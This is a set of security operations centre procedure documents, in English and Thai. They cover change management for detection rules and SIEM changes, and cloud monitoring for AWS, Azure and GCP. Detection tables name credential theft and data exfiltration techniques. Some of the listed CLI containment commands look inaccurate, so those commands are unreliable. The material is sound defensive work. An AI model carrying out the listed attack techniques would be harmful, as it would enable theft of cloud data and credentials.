Defines the process for making changes to SOC tools, detection rules, playbooks, and infrastructure. Ensures changes are reviewed, tested, approved, and documented before deployment.

---

## Scope

This SOP covers changes to:
- Detection rules (Sigma, YARA, custom SIEM rules)
- Playbooks and response procedures
- SIEM configuration (parsers, dashboards, alerts)
- EDR policies and exclusions
- Firewall rules managed by SOC
- SOAR workflows
- TI feed configuration
- SOC tooling (upgrades, patches, new tools)

---

## Change Categories

| Category | Risk | Approval | Lead Time | Examples |
|:---|:---:|:---|:---:|:---|
| **Standard** | Low | SOC Lead | 1 day | New Sigma rule, whitelist entry, dashboard update |
| **Normal** | Medium | SOC Manager | 3 days | SIEM parser change, new log source, playbook update |
| **Emergency** | High | SOC Manager + CISO | Immediate | Critical vulnerability patch, active incident response |
| **Major** | High | CAB (Change Advisory Board) | 5+ days | SIEM upgrade, new tool deployment, architecture change |

---

## Change Process

```mermaid
graph TD
    Request[1. Submit Change Request] --> Review[2. Technical Review]
    Review --> Test[3. Test in Staging]
    Test --> Approve[4. Approval]
    Approve --> Deploy[5. Deploy to Production]
    Deploy --> Verify[6. Post-Deploy Verification]
    Verify --> Close[7. Close & Document]
    
    Test -->|Failed| Fix[Fix Issues]
    Fix --> Test
    Verify -->|Issues| Rollback[Rollback]
    Rollback --> Fix
```

### Step 1: Submit Change Request

Use the [Change Request Template](../11_Reporting_Templates/change_request_rfc.en.md) and include:

| Field | Required | Description |
|:---|:---:|:---|
| Change title | ✅ | Clear summary of the change |
| Category | ✅ | Standard / Normal / Emergency / Major |
| Requester | ✅ | Who is requesting |
| Justification | ✅ | Why is this change needed? |
| Impact assessment | ✅ | What could go wrong? Affected systems? |
| Rollback plan | ✅ | How to undo if it fails |
| Test plan | ✅ | How will you verify success? |
| Target date | ✅ | When to deploy |

### Step 2: Technical Review

The assigned reviewer must verify:
- [ ] Change is technically sound
- [ ] No conflicts with existing rules/configs
- [ ] Rollback plan is viable
- [ ] Impact assessment is accurate

### Step 3: Test in Staging

**Detection Rules:**
```bash
# Validate Sigma rule syntax
python tools/sigma_validator.py rules/new_rule.yml

# Test against sample logs
sigmac -t splunk new_rule.yml | splunk search

# Verify no excessive false positives (run against 7 days of data)
```

**Playbook Changes:**
- Walk through with a peer (tabletop)
- Verify all referenced tools/contacts are accurate

**SIEM Changes:**
- Test in dev/staging SIEM instance
- Verify log parsing is correct
- Check performance impact

### Step 4: Approval

| Category | Approver | Method |
|:---|:---|:---|
| Standard | SOC Lead | Slack/Teams approval |
| Normal | SOC Manager | Ticket approval |
| Emergency | SOC Manager + CISO | Phone/verbal (document after) |
| Major | CAB | Meeting + formal sign-off |

### Step 5: Deploy to Production

- Deploy during **maintenance window** (if applicable)
- Use version control (git) for all rule/playbook changes
- Tag the deployment in git: `git tag -a v1.x -m "CHG-XXX: description"`

### Step 6: Post-Deploy Verification

Within 24 hours of deployment:
- [ ] Change is functioning as expected
- [ ] No unexpected alerts or errors
- [ ] No performance degradation
- [ ] Relevant team members notified

### Step 7: Close & Document

- Update change ticket with results
- Update relevant documentation
- Close the change request

---

## Emergency Change Process

```
⚡ Emergency changes bypass normal lead time but MUST:
   1. Be verbally approved by SOC Manager (or CISO if unavailable)
   2. Be documented WITHIN 24 HOURS after deployment
   3. Be reviewed in the next weekly SOC standup
   4. Have a rollback plan (even if informal)
```

---

## Change Log Template

| Date | Change ID | Description | Category | Deployed By | Status |
|:---|:---|:---|:---|:---|:---|
| 2026-02-15 | CHG-001 | Add Sigma rule for DNS tunneling | Standard | @analyst1 | ✅ |
| 2026-02-14 | CHG-002 | Update PB-01 Phishing playbook | Normal | @soc_lead | ✅ |

---

## Emergency Change Process

For changes required during active incidents:

```mermaid
graph TD
    Incident["Active Incident"] --> Need["Change Needed<br/>for Containment"]
    Need --> Verbal["Verbal Approval<br/>from SOC Manager"]
    Verbal --> Execute["Execute Change"]
    Execute --> Document["Document<br/>Retroactively (24h)"]
    Document --> Review["Review in<br/>Post-Incident"]
```

### Emergency Change Rules
1. **Verbal approval** from SOC Manager or CISO is sufficient
2. **Document within 24 hours** after the incident is stabilized
3. **No testing required** if containment is urgent
4. **Rollback plan** must still be identified before execution
5. **Post-incident review** must evaluate whether the change should be permanent

## Post-Implementation Review Template

| Field | Details |
|:---|:---|
| **RFC ID** | RFC-XXXX |
| **Change Description** | [What was changed] |
| **Implementation Date** | YYYY-MM-DD HH:MM |
| **Implemented By** | [Name] |
| **Status** | ✅ Success / ⚠️ Partial / ❌ Failed |
| **Actual Downtime** | [Duration vs. planned] |
| **Issues Encountered** | [Any problems during change] |
| **Rollback Required?** | Yes/No |
| **Validation Results** | [All checks pass?] |
| **Follow-up Actions** | [Next steps if any] |

## Related Documents

- [Change Request Template](../11_Reporting_Templates/change_request_rfc.en.md)
- [Detection Rule Testing SOP](Detection_Rule_Testing.en.md)
- [SOC Checklists](SOC_Checklists.en.md)


---

## File: 06_Operations_Management/Change_Management.th.md

# SOP การจัดการเปลี่ยนแปลง SOC

> **รหัสเอกสาร:** CHG-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** SOC Manager

---

## ขอบเขต

ครอบคลุมการเปลี่ยนแปลง: Detection rules, Playbooks, SIEM config, EDR policies, Firewall rules, SOAR workflows, TI feeds, เครื่องมือ SOC

---

## ประเภทการเปลี่ยนแปลง

| ประเภท | ความเสี่ยง | อนุมัติโดย | เวลา | ตัวอย่าง |
|:---|:---:|:---|:---:|:---|
| **Standard** | ต่ำ | SOC Lead | 1 วัน | Sigma rule ใหม่, whitelist |
| **Normal** | กลาง | SOC Manager | 3 วัน | SIEM parser, log source ใหม่ |
| **Emergency** | สูง | SOC Manager + CISO | ทันที | Patch เร่งด่วน, ตอบเหตุ |
| **Major** | สูง | CAB | 5+ วัน | SIEM upgrade, เครื่องมือใหม่ |

---

## ขั้นตอน

```mermaid
graph TD
    A[1. ส่ง Change Request] --> B[2. Review เทคนิค]
    B --> C[3. ทดสอบ Staging]
    C --> D[4. อนุมัติ]
    D --> E[5. Deploy Production]
    E --> F[6. ตรวจสอบหลัง Deploy]
    F --> G[7. ปิด & บันทึก]
```

### ขั้นตอนสำคัญ:
1. **ส่ง Change Request** — ใช้ [แม่แบบ](../11_Reporting_Templates/change_request_rfc.th.md)
2. **Review เทคนิค** — ตรวจสอบความถูกต้อง, conflict, rollback plan
3. **ทดสอบ** — Validate syntax, ทดสอบกับข้อมูลจริง 7 วัน
4. **อนุมัติ** — ตามระดับประเภท
5. **Deploy** — ใช้ version control (git), ติด tag
6. **ตรวจหลัง Deploy** — ภายใน 24 ชม.
7. **ปิด** — อัปเดตเอกสาร

---

## กรณีฉุกเฉิน

```
⚡ Emergency change:
   1. ขออนุมัติปากเปล่าจาก SOC Manager
   2. บันทึกภายใน 24 ชม.
   3. ทบทวนใน standup ถัดไป
   4. ต้องมี rollback plan เสมอ
```

---

## การประเมินความเสี่ยง

| ระดับ | เกณฑ์ | การอนุมัติ | หน้าต่างบำรุงรักษา |
|:---|:---|:---|:---|
| **ต่ำ** | เอกสาร, ไม่กระทบ | SOC Lead | ทุกเวลา |
| **กลาง** | Detection rule, Parser | SOC Manager | เวลาทำการ |
| **สูง** | SIEM config, Integration | SOC Manager + CAB | กำหนดเวลา |
| **วิกฤต** | โครงสร้างพื้นฐาน, Auth | CISO + CAB | Downtime กำหนด |

## รายการตรวจสอบการเปลี่ยนแปลง

| # | ขั้นตอน | ผู้รับผิดชอบ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | RFC ถูกส่งและอนุมัติ | Engineer | ☐ |
| 2 | Peer review เสร็จ | Detection Eng | ☐ |
| 3 | สำรองข้อมูลก่อน Deploy | Engineer | ☐ |
| 4 | ทดสอบใน Staging | Engineer | ☐ |
| 5 | แผน Rollback พร้อม | Engineer | ☐ |
| 6 | Deploy ไปยัง Production | Engineer | ☐ |
| 7 | ตรวจสอบ 30 นาทีหลัง Deploy | SOC Lead | ☐ |

## Change Advisory Board (CAB)

| สมาชิก | บทบาท |
|:---|:---|
| SOC Manager | ประเมินผลกระทบด้าน security |
| IT Operations Lead | ประเมินผลกระทบด้าน infrastructure |
| Application Owner | ประเมินผลกระทบด้าน application |
| CISO (สำหรับ Major change) | อนุมัติ change ที่มี risk สูง |

## Change Risk Matrix

| ผลกระทบ / ความน่าจะเกิด | ต่ำ | กลาง | สูง |
|:---|:---:|:---:|:---:|
| **สูง** | 🟡 Medium | 🔴 High | 🔴 Critical |
| **กลาง** | 🟢 Low | 🟡 Medium | 🔴 High |
| **ต่ำ** | 🟢 Low | 🟢 Low | 🟡 Medium |

## Rollback Procedures

| ประเภท Change | Rollback Method | เวลาสูงสุด |
|:---|:---|:---:|
| Detection rule update | Revert ไป version ก่อน | < 15 นาที |
| SIEM configuration | Restore config backup | < 30 นาที |
| Agent update | Rollback agent version | < 1 ชม. |
| Network policy | Revert firewall rules | < 15 นาที |
| SOAR playbook | Disable + revert | < 10 นาที |

## Post-Implementation Review

| คำถาม | คำตอบ |
|:---|:---|
| Change สำเร็จตามวัตถุประสงค์? | [ใช่/ไม่] |
| มีผลกระทบไม่คาดคิด? | [ระบุ] |
| ต้อง rollback หรือไม่? | [ใช่/ไม่ — เหตุผล] |
| บทเรียนที่ได้ | [ระบุ] |

## Change Advisory Board (CAB) Process

### Change Classification

| Type | Risk | Approval | Lead Time |
|:---|:---|:---|:---|
| Standard | ต่ำ | Pre-approved | No wait |
| Normal | กลาง | CAB | 5 วันทำการ |
| Emergency | สูง | Emergency CAB | ทันที |

### Change Request Checklist

- [ ] Description of change
- [ ] Business justification
- [ ] Risk assessment
- [ ] Rollback plan
- [ ] Test results (non-prod)
- [ ] Impact analysis
- [ ] Communication plan
- [ ] Post-change verification plan

### Post-Change Verification

| Check | Timeframe | Owner |
|:---|:---|:---|
| Functionality test | 0-30 min | Implementer |
| Alert verification | 30-60 min | SOC Analyst |
| Performance check | 1-4 hrs | IT Operations |
| Full review | 24 hrs | Change owner |

### Change Success Rate Tracking

| Month | Total | Success | Rate |
|:---|:---|:---|:---|
| Target | - | - | > 95% |

## กระบวนการ Emergency Change

สำหรับ change ที่ต้องทำระหว่าง active incident:

```mermaid
graph TD
    Incident["Incident กำลังดำเนิน"] --> Need["ต้อง Change<br/>เพื่อ Containment"]
    Need --> Verbal["อนุมัติทางวาจา<br/>จาก SOC Manager"]
    Verbal --> Execute["ดำเนินการ Change"]
    Execute --> Document["บันทึก<br/>ย้อนหลัง (24 ชม.)"]
    Document --> Review["ทบทวนใน<br/>Post-Incident"]
```

### กฎ Emergency Change
1. **อนุมัติทางวาจา** จาก SOC Manager หรือ CISO เพียงพอ
2. **บันทึกภายใน 24 ชม.** หลัง incident สงบ
3. **ไม่ต้องทดสอบ** ถ้า containment เร่งด่วน
4. **Rollback plan** ต้องระบุก่อนดำเนินการ
5. **Post-incident review** ต้องประเมินว่า change ควรเป็นถาวรไหม

## Template ทบทวนหลังดำเนินการ

| ฟิลด์ | รายละเอียด |
|:---|:---|
| **RFC ID** | RFC-XXXX |
| **คำอธิบาย Change** | [เปลี่ยนอะไร] |
| **วันดำเนินการ** | YYYY-MM-DD HH:MM |
| **ดำเนินการโดย** | [ชื่อ] |
| **สถานะ** | ✅ สำเร็จ / ⚠️ บางส่วน / ❌ ล้มเหลว |
| **Downtime จริง** | [ระยะเวลา vs. แผน] |
| **ปัญหาที่พบ** | [ปัญหาระหว่าง change] |
| **ต้อง Rollback?** | ใช่/ไม่ |
| **ผลตรวจสอบ** | [ตรวจทุกข้อผ่าน?] |
| **Follow-up Actions** | [ขั้นตอนต่อไปถ้ามี] |

## เอกสารที่เกี่ยวข้อง

- [แม่แบบ Change Request](../11_Reporting_Templates/change_request_rfc.th.md)
- [SOP ทดสอบ Detection Rule](Detection_Rule_Testing.th.md)
- [รายการตรวจสอบ SOC](SOC_Checklists.th.md)


---

## File: 06_Operations_Management/Cloud_Security_Monitoring.en.md

# Cloud Security Monitoring SOP

**Document ID**: OPS-SOP-018
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

> SOC procedures for monitoring **AWS, Azure, and GCP** environments. Covers log sources to collect, critical detections to build, cloud-native attack patterns, and response actions specific to cloud infrastructure.

---

## Cloud Shared Responsibility Model

```mermaid
graph TB
    subgraph Customer["🏢 Customer Responsibility (SOC Focus)"]
        A[Data & Content]
        B[Applications & Workloads]
        C[Identity & Access (IAM)]
        D[OS & Network Config]
        E[Client-Side Encryption]
    end
    
    subgraph Provider["☁️ Cloud Provider Responsibility"]
        F[Physical Infrastructure]
        G[Hypervisor & Host OS]
        H[Network Infrastructure]
        I[Storage Infrastructure]
    end
    
    style Customer fill:#3b82f6,color:#fff
    style Provider fill:#6b7280,color:#fff
```

> The SOC is responsible for monitoring **everything above the hypervisor**.

---

## Cloud Log Sources

### AWS

| Log Source | Service | Key Events | Retention | Priority |
|:---|:---|:---|:---:|:---:|
| **CloudTrail** | All API calls | IAM changes, S3 access, EC2 actions | 90 days (default) | 🔴 Critical |
| **CloudTrail Data Events** | S3 object-level, Lambda | GetObject, PutObject, Invoke | Custom | 🔴 Critical |
| **GuardDuty** | Threat detection | Findings (crypto mining, recon, C2) | 90 days | 🔴 Critical |
| **VPC Flow Logs** | Network traffic | Accept/reject, traffic patterns | Custom | 🟠 High |
| **Config** | Resource changes | Configuration compliance | Custom | 🟡 Medium |
| **IAM Access Analyzer** | Access analysis | Overly permissive policies | Continuous | 🟡 Medium |
| **CloudWatch Logs** | Applications, OS | App errors, OS events | Custom | 🟡 Medium |
| **Security Hub** | Aggregated findings | CIS benchmarks, best practices | 90 days | 🟡 Medium |
| **WAF** | Web application | Blocked requests, rules matched | Custom | 🟡 Medium |
| **Route 53 DNS** | DNS queries | Domain resolution logs | Custom | 🟢 Low |

### Azure

| Log Source | Service | Key Events | Retention | Priority |
|:---|:---|:---|:---:|:---:|
| **Azure Activity Log** | All resource operations | Create, delete, modify resources | 90 days | 🔴 Critical |
| **Entra ID Sign-in Logs** | Authentication | Success, failure, MFA, locations | 30 days (free) | 🔴 Critical |
| **Entra ID Audit Logs** | Identity changes | Role assignments, user management | 30 days (free) | 🔴 Critical |
| **Microsoft Defender for Cloud** | Threat detection | Security alerts, recommendations | 30 days | 🔴 Critical |
| **NSG Flow Logs** | Network traffic | Accept/deny, traffic flows | Custom | 🟠 High |
| **Key Vault Diagnostics** | Secret access | Key/secret/cert operations | Custom | 🟠 High |
| **Diagnostic Settings** | Platform logs | Resource-specific logs | Custom | 🟡 Medium |
| **Azure Firewall Logs** | Firewall | App rules, network rules, threat intel | Custom | 🟡 Medium |

### GCP

| Log Source | Service | Key Events | Retention | Priority |
|:---|:---|:---|:---:|:---:|
| **Cloud Audit Logs** (Admin) | All admin operations | IAM, resource create/delete | 400 days | 🔴 Critical |
| **Cloud Audit Logs** (Data) | Data access | BigQuery, GCS read/write | 30 days (default) | 🔴 Critical |
| **Security Command Center** | Threat detection | Findings, vulnerabilities | Continuous | 🔴 Critical |
| **VPC Flow Logs** | Network traffic | Source/dest, ports, protocols | Custom | 🟠 High |
| **Cloud DNS Logs** | DNS queries | Domain resolution | Custom | 🟡 Medium |
| **Cloud Armor** | WAF/DDoS | Blocked requests, rules matched | Custom | 🟡 Medium |
| **Access Transparency** | Google access | Google staff access to your data | 400 days | 🟡 Medium |

---

## Critical Cloud Detections

### Identity & Access (All Platforms)

| Detection | Description | Log Source | Severity | MITRE |
|:---|:---|:---|:---:|:---|
| Root/global admin login | Root account or global admin used | CloudTrail / Entra ID / Audit | 🔴 P1 | T1078.004 |
| MFA disabled for user | MFA removed from account | IAM / Entra ID / Audit | 🔴 P1 | T1556 |
| New admin role assigned | Privilege escalation | IAM / Entra ID / Audit | 🔴 P1 | T1098 |
| API key created | Long-lived credential exposed | CloudTrail / Audit / Audit Logs | 🟠 P2 | T1098.001 |
| Login from unusual country | Impossible travel / new location | CloudTrail / Sign-in / Audit | 🟠 P2 | T1078.004 |
| Excessive failed logins | Brute-force attempt | CloudTrail / Sign-in / Audit | 🟠 P2 | T1110 |
| Service account key download | SA key exported | CloudTrail / Audit / Audit Logs | 🟡 P3 | T1552.001 |

### Data Exfiltration

| Detection | Description | Log Source | Severity | MITRE |
|:---|:---|:---|:---:|:---|
| S3/GCS bucket made public | Storage publicly accessible | CloudTrail / Activity / Audit | 🔴 P1 | T1537 |
| Large data download | Unusual volume exported | S3 Data Events / Storage Logs | 🔴 P1 | T1530 |
| Snapshot shared externally | Disk/DB snapshot shared to external account | CloudTrail / Activity / Audit | 🔴 P1 | T1537 |
| Cross-account data transfer | Data moved to unfamiliar account | VPC Flow / Activity / Flow Logs | 🟠 P2 | T1537 |

### Infrastructure Attacks

| Detection | Description | Log Source | Severity | MITRE |
|:---|:---|:---|:---:|:---|
| Crypto mining detected | GuardDuty/Defender/SCC finding | GuardDuty / Defender / SCC | 🔴 P1 | T1496 |
| Security group 0.0.0.0/0 | Wide-open inbound rule | CloudTrail / Activity / Audit | 🔴 P1 | T1562.007 |
| Logging disabled | CloudTrail/audit logging stopped | CloudTrail / Activity / Audit | 🔴 P1 | T1562.008 |
| EC2/VM in unusual region | Resource launched in new region | CloudTrail / Activity / Audit | 🟠 P2 | T1578.002 |
| Lambda/Function created | Serverless function created | CloudTrail / Activity / Audit | 🟡 P3 | T1204 |

---

## Cloud Incident Response

### Response Actions by Platform

| Action | AWS | Azure | GCP |
|:---|:---|:---|:---|
| **Revoke session** | `aws iam delete-login-profile` | Revoke sessions in Entra | `gcloud auth revoke` |
| **Disable API key** | `aws iam update-access-key --status Inactive` | Reset credentials in Entra | `gcloud iam service-accounts keys disable` |
| **Isolate instance** | Replace SG with deny-all | Remove from subnet/NSG deny | Remove firewall rules |
| **Block IP** | WAF/Security Group | NSG/Azure Firewall | Cloud Armor/Firewall |
| **Preserve evidence** | Create EBS snapshot | Create disk snapshot | Create disk snapshot |
| **Disable user** | `aws iam update-user --no-login` | Block sign-in in Entra | `gcloud iam update --disabled` |
| **Revoke permissions** | Remove IAM policies | Remove role assignments | Remove IAM bindings |

### Cloud IR Workflow

```mermaid
flowchart TD
    A[Cloud Alert Triggered] --> B{Auto-remediation<br/>enabled?}
    B -->|Yes| C[SOAR executes<br/>containment playbook]
    B -->|No| D[SOC Analyst triages]
    
    C --> E[Notify SOC for review]
    D --> F{Confirmed<br/>incident?}
    
    F -->|FP| G[Close + tune rule]
    F -->|TP| H[Containment]
    
    H --> I[Revoke credentials]
    H --> J[Isolate resource]
    H --> K[Preserve evidence]
    
    I --> L[Investigation]
    J --> L
    K --> L
    
    L --> M[CloudTrail/Audit<br/>log analysis]
    L --> N[Determine blast radius]
    L --> O[Check data exposure]
    
    M --> P[Remediation]
    N --> P
    O --> P
    
    P --> Q[Fix root cause]
    P --> R[Rotate all credentials]
    P --> S[Post-incident review]

    style A fill:#3b82f6,color:#fff
    style H fill:#dc2626,color:#fff
    style P fill:#22c55e,color:#fff
```

---

## Cloud Security Posture Management (CSPM)

### Daily Checks

| Check | AWS Tool | Azure Tool | GCP Tool |
|:---|:---|:---|:---|
| Public S3/Blob/GCS buckets | S3 Access Analyzer | Defender for Storage | SCC Asset Discovery |
| Overly permissive IAM | IAM Access Analyzer | Entra PIM | IAM Recommender |
| Unencrypted storage | Config Rules | Defender for Cloud | SCC |
| Open security groups | Config Rules | Defender for Cloud | SCC |
| MFA not enabled | IAM Credential Report | Entra Reports | Org Policy |

### Weekly Checks

| Check | Tool |
|:---|:---|
| CIS benchmark compliance | AWS Config / Defender / SCC |
| Unused resources (cost + risk) | Cost Explorer / Cost Management / Billing |
| Expired/unused credentials | IAM Credential Report / Entra / IAM |
| Cross-account access review | IAM Access Analyzer / PIM / IAM |

---

## Multi-Cloud SIEM Integration

### Architecture

```mermaid
graph LR
    subgraph AWS
        CT[CloudTrail] --> S3A[S3 Bucket]
        GD[GuardDuty] --> S3A
    end
    
    subgraph Azure
        AL[Activity Log] --> EH[Event Hub]
        EID[Entra ID] --> EH
    end
    
    subgraph GCP
        CAL[Cloud Audit] --> PS[Pub/Sub]
        SCC[SCC] --> PS
    end
    
    S3A --> SIEM[🔍 SIEM]
    EH --> SIEM
    PS --> SIEM
    
    SIEM --> SOAR[⚡ SOAR]
    SOAR --> |Auto-remediate| AWS
    SOAR --> |Auto-remediate| Azure
    SOAR --> |Auto-remediate| GCP

    style SIEM fill:#3b82f6,color:#fff
    style SOAR fill:#8b5cf6,color:#fff
```

### Log Ingestion Checklist

- [ ] AWS CloudTrail → SIEM (via S3 + SQS)
- [ ] AWS GuardDuty findings → SIEM
- [ ] AWS VPC Flow Logs → SIEM (sampled)
- [ ] Azure Activity Log → SIEM (via Event Hub)
- [ ] Azure Entra ID logs → SIEM (via Event Hub)
- [ ] Azure Defender alerts → SIEM
- [ ] GCP Audit Logs → SIEM (via Pub/Sub)
- [ ] GCP SCC findings → SIEM
- [ ] GCP VPC Flow Logs → SIEM (sampled)

---

## Metrics

| Metric | Target | Measurement |
|:---|:---:|:---|
| Cloud log ingestion uptime | ≥ 99.5% | SIEM health dashboard |
| Cloud alerts MTTD | < 5 min | SIEM → alert time |
| Cloud alerts MTTR | < 30 min for P1 | Ticket resolution time |
| CSPM compliance score | ≥ 90% | Weekly CSPM report |
| Public resource detection | < 15 min | Time from exposure to alert |
| Cloud detection rule coverage | ≥ 70% of critical patterns | Monthly detection audit |

---

## Related Documents

-   [Log Source Matrix](Log_Source_Matrix.en.md) — All data sources
-   [SOC Automation Catalog](SOC_Automation_Catalog.en.md) — Cloud automations
-   [Alert Tuning SOP](Alert_Tuning.en.md) — Tuning cloud alerts
-   [Third-Party Risk](Third_Party_Risk.en.md) — Cloud vendor risk
-   [Disaster Recovery / BCP](../05_Incident_Response/Disaster_Recovery_BCP.en.md) — Cloud DR
-   [Forensic Investigation](../05_Incident_Response/Forensic_Investigation.en.md) — Cloud forensics


---

## File: 06_Operations_Management/Cloud_Security_Monitoring.th.md

# Cloud Security Monitoring SOP / SOP การเฝ้าระวัง Cloud Security

**รหัสเอกสาร**: OPS-SOP-018
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> ขั้นตอนสำหรับ SOC ในการเฝ้าระวัง **AWS, Azure และ GCP** ครอบคลุม log sources, critical detections, cloud attack patterns และ response actions เฉพาะ cloud

---

## Cloud Log Sources

### AWS

| Log Source | บริการ | เหตุการณ์สำคัญ | ลำดับ |
|:---|:---|:---|:---:|
| **CloudTrail** | API calls ทั้งหมด | IAM changes, S3 access, EC2 | 🔴 Critical |
| **CloudTrail Data Events** | S3 object-level, Lambda | GetObject, PutObject, Invoke | 🔴 Critical |
| **GuardDuty** | Threat detection | Crypto mining, recon, C2 | 🔴 Critical |
| **VPC Flow Logs** | Network traffic | Accept/reject, traffic patterns | 🟠 High |
| **Config** | Resource changes | Configuration compliance | 🟡 Medium |
| **IAM Access Analyzer** | การวิเคราะห์สิทธิ์ | Policy ที่กว้างเกินไป | 🟡 Medium |
| **Security Hub** | Findings รวม | CIS benchmarks | 🟡 Medium |

### Azure

| Log Source | บริการ | เหตุการณ์สำคัญ | ลำดับ |
|:---|:---|:---|:---:|
| **Activity Log** | Resource operations | Create, delete, modify | 🔴 Critical |
| **Entra ID Sign-in** | Authentication | Success, failure, MFA | 🔴 Critical |
| **Entra ID Audit** | Identity changes | Role assignments | 🔴 Critical |
| **Defender for Cloud** | Threat detection | Security alerts | 🔴 Critical |
| **NSG Flow Logs** | Network traffic | Accept/deny flows | 🟠 High |
| **Key Vault Diagnostics** | Secret access | Key/secret operations | 🟠 High |

### GCP

| Log Source | บริการ | เหตุการณ์สำคัญ | ลำดับ |
|:---|:---|:---|:---:|
| **Cloud Audit Logs** (Admin) | Admin operations | IAM, resource create/delete | 🔴 Critical |
| **Cloud Audit Logs** (Data) | Data access | BigQuery, GCS read/write | 🔴 Critical |
| **Security Command Center** | Threat detection | Findings, vulnerabilities | 🔴 Critical |
| **VPC Flow Logs** | Network traffic | Source/dest, ports | 🟠 High |

---

## Cloud Detections ที่สำคัญ

### Identity & Access

| Detection | คำอธิบาย | Severity | MITRE |
|:---|:---|:---:|:---|
| Root/global admin login | ใช้ root account หรือ global admin | 🔴 P1 | T1078.004 |
| MFA ถูกปิด | MFA ถูกลบออกจาก account | 🔴 P1 | T1556 |
| กำหนด admin role ใหม่ | Privilege escalation | 🔴 P1 | T1098 |
| สร้าง API key | Long-lived credential | 🟠 P2 | T1098.001 |
| Login จากประเทศผิดปกติ | Impossible travel | 🟠 P2 | T1078.004 |
| Failed login มากเกินไป | Brute-force attempt | 🟠 P2 | T1110 |

### Data Exfiltration

| Detection | คำอธิบาย | Severity | MITRE |
|:---|:---|:---:|:---|
| Bucket ถูกเปิด public | Storage เข้าถึงได้จากภายนอก | 🔴 P1 | T1537 |
| ดาวน์โหลดข้อมูลจำนวนมาก | ปริมาณผิดปกติ | 🔴 P1 | T1530 |
| แชร์ Snapshot ภายนอก | Disk/DB snapshot ไปยัง account อื่น | 🔴 P1 | T1537 |

### Infrastructure Attacks

| Detection | คำอธิบาย | Severity | MITRE |
|:---|:---|:---:|:---|
| Crypto mining | GuardDuty/Defender/SCC finding | 🔴 P1 | T1496 |
| Security group 0.0.0.0/0 | เปิด inbound ทั้งหมด | 🔴 P1 | T1562.007 |
| Logging ถูกปิด | CloudTrail/audit ถูกหยุด | 🔴 P1 | T1562.008 |

---

## Cloud Incident Response

### Response Actions ตาม Platform

| Action | AWS | Azure | GCP |
|:---|:---|:---|:---|
| **ยกเลิก session** | `delete-login-profile` | Revoke sessions Entra | `gcloud auth revoke` |
| **ปิด API key** | `update-access-key --status Inactive` | Reset credentials | `keys disable` |
| **แยก instance** | เปลี่ยน SG เป็น deny-all | ลบ NSG deny | ลบ firewall rules |
| **บล็อก IP** | WAF/Security Group | NSG/Azure Firewall | Cloud Armor |
| **เก็บหลักฐาน** | สร้าง EBS snapshot | สร้าง disk snapshot | สร้าง disk snapshot |
| **ปิด user** | `update-user --no-login` | Block sign-in Entra | `update --disabled` |

### Cloud IR Workflow

```mermaid
flowchart TD
    A[Cloud Alert] --> B{Auto-remediation?}
    B -->|ใช่| C[SOAR containment]
    B -->|ไม่| D[SOC Analyst triage]
    C --> E[แจ้ง SOC review]
    D --> F{ยืนยัน incident?}
    F -->|FP| G[ปิด + tune rule]
    F -->|TP| H[Containment]
    H --> I[ยกเลิก credentials]
    H --> J[แยก resource]
    H --> K[เก็บหลักฐาน]
    I --> L[สืบสวน]
    J --> L
    K --> L
    L --> M[Remediation]
    M --> N[แก้ root cause]
    M --> O[หมุน credentials ทั้งหมด]
    M --> P[Post-incident review]

    style A fill:#3b82f6,color:#fff
    style H fill:#dc2626,color:#fff
    style M fill:#22c55e,color:#fff
```

---

## CSPM ตรวจสอบประจำ

### รายวัน

| ตรวจสอบ | เครื่องมือ |
|:---|:---|
| Public buckets/storage | S3 Access Analyzer / Defender / SCC |
| IAM ที่กว้างเกินไป | IAM Access Analyzer / Entra PIM / IAM Recommender |
| Storage ไม่เข้ารหัส | Config / Defender / SCC |
| Security groups เปิดกว้าง | Config / Defender / SCC |
| MFA ไม่เปิด | IAM Credential Report / Entra / Org Policy |

### รายสัปดาห์

| ตรวจสอบ | เครื่องมือ |
|:---|:---|
| CIS benchmark compliance | AWS Config / Defender / SCC |
| Resources ที่ไม่ได้ใช้ | Cost Explorer / Cost Management / Billing |
| Credentials หมดอายุ/ไม่ได้ใช้ | IAM Credential Report / Entra / IAM |

---

## Multi-Cloud SIEM Integration

### Log Ingestion Checklist

- [ ] AWS CloudTrail → SIEM (ผ่าน S3 + SQS)
- [ ] AWS GuardDuty → SIEM
- [ ] AWS VPC Flow Logs → SIEM (sampled)
- [ ] Azure Activity Log → SIEM (ผ่าน Event Hub)
- [ ] Azure Entra ID → SIEM (ผ่าน Event Hub)
- [ ] Azure Defender alerts → SIEM
- [ ] GCP Audit Logs → SIEM (ผ่าน Pub/Sub)
- [ ] GCP SCC findings → SIEM
- [ ] GCP VPC Flow Logs → SIEM (sampled)

---

## ตัวชี้วัด

| ตัวชี้วัด | เป้าหมาย |
|:---|:---:|
| Cloud log ingestion uptime | ≥ 99.5% |
| Cloud alerts MTTD | < 5 นาที |
| Cloud alerts MTTR (P1) | < 30 นาที |
| CSPM compliance score | ≥ 90% |
| Public resource detection | < 15 นาที |

---

## Cloud Log Sources Priority

| แหล่ง Log | AWS | Azure | GCP | ลำดับ |
|:---|:---|:---|:---|:---:|
| **Identity/IAM** | CloudTrail | Azure AD | Cloud Audit | P1 |
| **Network** | VPC Flow Logs | NSG Flow Logs | VPC Flow Logs | P1 |
| **Storage** | S3 Access Logs | Storage Analytics | GCS Audit | P2 |
| **Compute** | EC2 Logs | VM Activity | GCE Logs | P2 |
| **Container** | EKS Audit | AKS Audit | GKE Audit | P2 |
| **Serverless** | Lambda Logs | Function Logs | Cloud Functions | P3 |
| **WAF** | AWS WAF | Azure WAF | Cloud Armor | P1 |

## Cloud MITRE ATT&CK Mapping

| Technique | คำอธิบาย | Detection | Platform |
|:---|:---|:---|:---|
| **T1078.004** | Cloud account abuse | Impossible travel, unusual IP | All |
| **T1537** | Transfer data to cloud account | Large S3/Blob transfers | AWS/Azure |
| **T1580** | Cloud infrastructure discovery | API enumeration spike | All |
| **T1525** | Implant container image | Unauthorized image push | All |
| **T1552.005** | Cloud credentials in files | Credential scanning | All |

## Multi-Cloud Dashboard Template

| Panel | ตัวชี้วัด | เป้าหมาย |
|:---|:---|:---|
| **IAM Overview** | Failed logins, new admin accounts, MFA disabled | Zero MFA-disabled admins |
| **Network** | Unusual outbound, new security groups, exposed ports | Zero public-facing DB |
